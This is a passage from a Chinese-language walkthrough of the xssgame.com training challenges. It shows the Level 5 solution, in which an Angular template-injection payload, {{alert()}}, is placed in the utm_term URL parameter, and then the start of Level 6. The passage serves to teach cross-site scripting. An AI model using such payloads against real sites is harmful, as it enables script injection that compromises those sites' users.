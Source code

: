 ```js
{{alert()}}
```
好知道了这个我们构建 URL，就选择 'utm_term' 这个节点吧：
```
http://www.xssgame.com/f/JFTG_t7t3N-P/?utm_term={{alert()}}
```
过关：

![Level_5_Pass](/Image/Level_5_Pass.png)

(至于为啥用 Angular，不直接插代码试试看呢，需要自己插一插试试哦~)

## LEVEL 6

[贴心传送门](http://www.xssgame.com/rWKWwJGnAeyi)

![Level_6_Welcome](/Image/Level_6_Welcome.png)